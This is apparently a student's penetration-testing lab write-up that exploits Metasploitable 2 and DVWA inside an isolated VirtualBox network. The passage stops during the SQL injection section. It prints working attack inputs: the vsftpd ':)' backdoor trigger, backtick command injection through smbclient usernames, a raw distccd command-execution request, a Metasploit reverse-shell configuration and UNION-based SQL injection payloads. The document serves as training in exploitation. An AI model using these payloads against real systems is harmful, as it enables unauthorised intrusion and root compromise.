# Lab 05 - Controlled Exploitation

## Objective

The goal of this lab was to perform controlled exploitation of the five security weaknesses investigated in [Lab 04](../04-vulnerability-assessment/) and verify their actual impact on Metasploitable 2.

I tested the vsftpd 2.3.4 backdoor, Samba's vulnerable `username map script` functionality, the remotely accessible distccd service, SQL injection in Damn Vulnerable Web Application (DVWA), and an insecure NFS export. These targets represented different ways an attacker could gain unauthorized access, execute commands, retrieve information, or modify files.

I used manual techniques to understand how each vulnerability worked and, where applicable, compared the results with Nmap NSE scripts or Metasploit. I also captured traffic with Wireshark to connect the observed results to the underlying network requests and responses.

The purpose was not simply to obtain successful exploit results, but to document the mechanism, verify the resulting access, and distinguish command execution, database access, and filesystem access from one another.

## Lab Environment

This lab used the isolated VirtualBox environment established in [Lab 01](../01-isolated-lab-environment/) and used throughout the preceding labs.

| Virtual Machine | IP Address | Role |
|---|---|---|
| Kali Linux | `10.10.10.10` | Attacker system used for enumeration and exploitation. |
| Metasploitable 2 | `10.10.10.20` | Intentionally vulnerable target hosting the affected services and DVWA. |
| Ubuntu | `10.10.10.30` | Network observer running Wireshark to capture and analyze traffic. |

All three virtual machines communicated over the VirtualBox Internal Network `Labnet`, isolated from my home network and the Internet.

## Methodology

I began with the findings from [Lab 04](../04-vulnerability-assessment/), which identified likely or confirmed weaknesses but deliberately avoided active exploitation. For each target in this lab, I first verified the relevant service or application, then carried out controlled tests to determine whether the weakness could be exploited.

Where practical, I tested a manual technique before using an automated tool. I examined the resulting network traffic in Wireshark and verified important outcomes, including command execution privileges and the creation of proof files on Metasploitable 2. For DVWA, I also verified the SQL injection results by comparing the extracted usernames and password hashes against the records stored in the underlying MySQL database.

I used a clean Metasploitable 2 snapshot between relevant tests to avoid carrying an activated backdoor, modified files, or other effects from one exploitation run into another. Proof files were created under `/tmp` or, for the NFS test, under the exported `/root` directory.

## 1. FTP - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

### Initial Port Verification

[Lab 04](../04-vulnerability-assessment/) identified vsftpd 2.3.4 on TCP port 21 as a candidate for CVE-2011-2523. The backdoor was introduced through a compromised software distribution and is triggered by a username containing `:)`. Successful exploitation opens a command shell on TCP port 6200.

Before attempting exploitation, I checked the FTP port and the expected backdoor port:

```bash
nmap -sT -p 21,6200 --reason 10.10.10.20
```



Port 21 was open, while port 6200 was closed. This established that the shell listener was not already accessible before the exploit attempt.

### Manual Exploitation

Using the Python exploit examined in [Lab 04](../04-vulnerability-assessment/) as a reference, I attempted to trigger the backdoor manually using Netcat.

I first connected to the FTP service using Netcat:

```bash
nc -nv 10.10.10.20 21
```

After receiving the FTP banner, I sent the following commands separately:

```text
USER lab05:)
PASS test123
```

The important part of the username is the `:)` sequence, which triggers the malicious backdoor behavior. During manual testing, sending `USER lab05:)` alone did not make port 6200 accessible. After I sent `PASS test123`, the backdoor shell became accessible on port 6200.

In another Kali terminal, I connected to the expected backdoor port:

```bash
nc -nv 10.10.10.20 6200
```

The connection succeeded, and I ran:

```bash
id
```

The result identified the session as `uid=0(root)`, demonstrating that the backdoor provided a root shell on Metasploitable 2.

I then created a proof file through the shell:

```bash
echo "Lab 05 - Root access confirmed" > /tmp/lab05-proof.txt
```

I verified the file and its ownership directly on Metasploitable 2:

```bash
ls -l /tmp/lab05-proof.txt
sudo cat /tmp/lab05-proof.txt
```



The file was owned by root and contained the expected text. This confirmed that commands issued through the remote shell could modify the target filesystem with root privileges.

After triggering the backdoor, the original FTP connection stopped responding, but new connections to the FTP service still worked.

I captured the manual exploitation traffic using Wireshark on the Ubuntu observer.



The capture showed the crafted FTP username containing `:)`, the separate `PASS` command, and the subsequent connection to port 6200, where the root shell activity was visible.

### Automated Exploitation with Nmap NSE

After restoring Metasploitable 2 to a clean snapshot, I confirmed the initial port state again and ran Nmap's dedicated backdoor detection script:

```bash
sudo nmap -p 21 --script ftp-vsftpd-backdoor 10.10.10.20
```



The script reported that the backdoor was exploitable and executed the default `id` command, returning root privileges.

The NSE script also sent `exit` and closed the shell connection after executing `id`. This ended the session without removing the underlying backdoor vulnerability.

I also captured the traffic generated by Nmap's NSE script.



Wireshark showed the script sending `USER X:)` and `PASS X` together within a single TCP packet, whereas I sent them separately during the manual exploitation.

This comparison demonstrated that the manual and automated methods used the same backdoor mechanism despite differences in how their FTP commands were transmitted.

### Result and Security Impact

The vsftpd backdoor was confirmed exploitable. Both manual testing and Nmap NSE demonstrated remote command execution with root privileges without requiring legitimate FTP credentials.

An attacker able to reach an affected FTP service could obtain complete control of the compromised system.

## 2. SMB - Samba Username Map Script Command Injection (CVE-2007-2447)

### Initial Port Verification

[Lab 04](../04-vulnerability-assessment/) investigated Samba's `username map script` command injection vulnerability (CVE-2007-2447) and confirmed that the vulnerable configuration option was enabled on Metasploitable 2.

CVE-2007-2447 allows remote command execution when Samba passes specially crafted usernames containing shell syntax, such as backticks, to the configured username mapping script. Because username mapping occurs before authentication, valid credentials are not required to exploit the vulnerability.

Before exploitation, I verified that the SMB ports were accessible:

```bash
nmap -sT -p 139,445 --reason 10.10.10.20
```



Both TCP ports 139 and 445 were open. I used port 139 for the exploitation tests.

### Manual Exploitation

After reviewing the Metasploit exploit examined in [Lab 04](../04-vulnerability-assessment/) and the `smbclient` documentation, I attempted to reproduce the command injection manually.

The Metasploit module constructed a malicious username beginning with `/=` and containing a command enclosed in backticks. I adapted this format for `smbclient`, using its `-U` option to supply the crafted username:

```bash
smbclient -L 10.10.10.20 -p 139 -U '/=`touch /tmp/lab05-samba-proof`' -N -m NT1 --option='client min protocol=NT1'
```

The backticks were intended to execute `touch /tmp/lab05-samba-proof` on Metasploitable 2, while the `/=` prefix was taken from the Metasploit module. The `-L` option initiated SMB authentication while requesting a share listing, `-N` prevented a password prompt, and the SMB protocol options allowed communication with the older Samba service.

The client returned `NT_STATUS_LOGON_FAILURE`. I checked the target filesystem and confirmed that the proof file had not been created.



After the failed attempt, I examined the captured SMB traffic in Wireshark and noticed that the crafted username had not been transmitted as intended.



The `NTLMSSP_AUTH` message showed that the username had been split into separate domain and username fields. Part of the intended command appeared as the domain `TOUCH`, while the remainder of the file path appeared in the username field.

I then investigated how `smbclient` handles usernames containing forward slashes, which led me to identify the parsing issue affecting my command.

To address this, I repeated the test with an additional leading slash:

```bash
smbclient -L 10.10.10.20 -p 139 -U '//=`touch /tmp/lab05-samba-proof`' -N -m NT1 --option='client min protocol=NT1'
```

Although the client again returned `NT_STATUS_LOGON_FAILURE`, I verified that the proof file had been created on Metasploitable 2 and was owned by root.



I then examined the successful attempt in Wireshark.



This time, the `NTLMSSP_AUTH` message preserved the command containing `touch /tmp/lab05-samba-proof` in the username field.

Further investigation showed that `smbclient` parsed the supplied username twice, interpreting forward slashes as separators between domain and username information. The additional leading slash prevented the command containing `/tmp/` from being split incorrectly.

During further testing, I also found that commands without forward slashes could execute successfully without either the `/=` or `//=` prefix. This confirmed that the prefix taken from the Metasploit module was not required for the vulnerability itself, while the extra slash was a workaround for `smbclient`'s username parsing in my original command.

Although authentication failed in both attempts, the corrected username successfully triggered command execution before authentication completed.

### Automated Exploitation with Metasploit

After restoring Metasploitable 2 to a clean snapshot, I used Metasploit's `usermap_script` module to test the vulnerability with a reverse shell.

I launched Metasploit and configured the exploit:

```bash
msfconsole -q
```

```text
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.20
set RPORT 139
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 10.10.10.10
set LPORT 4444
exploit
```

The module submitted a malicious username containing a shell command designed to establish a reverse connection from Metasploitable 2 to Kali.

After the reverse shell connected, I ran:

```bash
id
```

The output confirmed that the shell was running as `uid=0(root)`.

I created another proof file through the shell:

```bash
echo "Lab 05 - Samba Metasploit root access confirmed" > /tmp/lab05-samba-metasploit-proof.txt
```

I then verified the file's ownership and contents directly on Metasploitable 2.



The proof file was owned by root, confirming that the reverse shell could execute commands and modify files with root privileges.

I captured the Metasploit exploitation traffic using Wireshark.



The SMB Session Setup request contained a crafted username beginning with `/=` and followed by a backtick-enclosed command. The command used `nohup`, a named pipe created with `mkfifo`, and Netcat to establish the reverse shell.

The capture also showed Metasploitable 2 initiating a TCP connection to Kali on port 4444, followed by the shell communication.

Unlike my manual attempt using `smbclient`, Metasploit constructed the malicious SMB authentication request directly, without the same username-parsing issue.

### Result and Security Impact

CVE-2007-2447 was successfully exploited through both manual command execution and Metasploit.

The manual test demonstrated that a crafted SMB username could create a root-owned file even though authentication failed. Metasploit further demonstrated that the vulnerability could provide an interactive reverse shell with root privileges.

An attacker able to reach an affected Samba service with the vulnerable `username map script` configuration could execute arbitrary commands without valid credentials, potentially gaining complete control of the system.

## 3. distcc - distccd Remote Command Execution (CVE-2004-2687)

### Initial Port Verification

[Lab 04](../04-vulnerability-assessment/) identified an exposed distccd service configured to accept connections from any IPv4 address. The service was running under the `daemon` account rather than root.

CVE-2004-2687 involves the abuse of distccd's remote compilation functionality to execute commands supplied by untrusted clients. Instead of submitting a legitimate compilation job, an attacker can construct a request that instructs the server to execute a shell command.

Before exploitation, I verified the service using Nmap:

```bash
nmap -sV -p 3632 --reason 10.10.10.20
```



The scan confirmed that TCP port 3632 was open and identified the distccd service.

### Manual Exploitation

After reviewing the exploit code examined in [Lab 04](../04-vulnerability-assessment/) and Nmap's `distcc-cve2004-2687` script, I adapted the request format used by the NSE script to execute `id`. I replaced `id` with a command to create a proof file on Metasploitable 2.

The request used distcc protocol fields such as `DIST`, `ARGC`, and `ARGV` to specify the protocol version, number of arguments, and their values. This allowed me to submit a shell command instead of a normal compilation job.

I constructed the formatted request using `printf` and sent it directly to the distccd service using Netcat.

From Kali, I ran:

```bash
printf "DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV00000035sh -c '(echo Lab05-distccd > /tmp/lab05-distccd.txt)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A\n" | nc -nv -w 5 10.10.10.20 3632
```

The `printf` command generated the formatted distcc request, which Netcat sent to the service on TCP port 3632. The embedded shell command attempted to write `Lab05-distccd` to `/tmp/lab05-distccd.txt` on the target.

The server returned a response containing `STAT00000000`, indicating a successful command exit status.

I then verified the file directly on Metasploitable 2:

```bash
ls -l /tmp/lab05-distccd.txt
cat /tmp/lab05-distccd.txt
```



The file contained the expected text and was owned by `daemon`, confirming that the command executed with the privileges of the distccd service.

I also examined the corresponding traffic in Wireshark.



The capture showed the distcc request containing the `sh` command and its arguments, including the instruction to create the proof file. The server's response also showed that the command completed successfully.

### Automated Exploitation with Nmap NSE

After restoring Metasploitable 2 to a clean snapshot, I tested the vulnerability using Nmap's `distcc-cve2004-2687` script:

```bash
sudo nmap -p 3632 --script distcc-cve2004-2687 10.10.10.20
```



The script reported that the service was vulnerable and executed the `id` command remotely. The output identified the execution context as `uid=1(daemon) gid=1(daemon) groups=1(daemon)`, consistent with the `daemon` ownership of the proof file created during manual testing.

I captured the NSE script's traffic using Wireshark.



The capture showed that the script also submitted a formatted distcc request containing a shell command. In this case, the command executed was `id`, and its output was returned through the distcc response.

### Result and Security Impact

CVE-2004-2687 was successfully exploited through both a manually constructed distcc request and Nmap NSE.

The manual test demonstrated the ability to create a file on the target, while the NSE script confirmed the execution privileges through the `id` command.

Unlike the vsftpd and Samba exploits, which provided root access, the distccd commands executed with the more limited privileges of the `daemon` account.

An attacker able to access a vulnerable distccd service could execute arbitrary commands with the permissions of the service account, potentially accessing or modifying files and resources available to that account.

## 4. HTTP - DVWA SQL Injection (Low Security)

### Initial Web Application Verification

[Lab 04](../04-vulnerability-assessment/) identified an SQL injection vulnerability in Damn Vulnerable Web Application (DVWA). The application's Low security implementation inserted the user-supplied `id` parameter directly into an SQL query without separating user input from SQL instructions.

The vulnerable query examined in [Lab 04](../04-vulnerability-assessment/) was:

```php
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

To begin testing, I accessed DVWA through Firefox on Kali at `http://10.10.10.20/dvwa/`, logged in, and confirmed that the security level was set to Low.

I navigated to the SQL Injection page and submitted a normal user ID of `1`.



The application returned the first and last names associated with the submitted ID, establishing the expected behavior before attempting SQL injection.

### SQL Injection Testing

I began by testing whether the `id` parameter could alter the SQL query.

Submitting a single quote (`1'`) produced an SQL syntax error, indicating that the input affected the query's structure.

I then submitted a boolean-based injection:

```sql
1' OR '1'='1' #
```



The injected single quote closed the original string, while `OR '1'='1'` introduced a condition that was always true. The `#` character commented out the remainder of the original SQL statement.

Instead of returning one user, the application returned all five user records.

I next investigated the query's structure to determine whether I could use `UNION SELECT` to retrieve additional database information.

Testing `ORDER BY 3` produced an error, while `ORDER BY 2` succeeded, indicating that the original query returned two columns. I confirmed that both output positions could be controlled using a `UNION SELECT` statement containing two test values.

### Database Enumeration

With the query structure established, I attempted to enumerate the database tables using MySQL's `information_schema`:

```sql
-1' UNION SELECT 'Tables',GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database() #
```

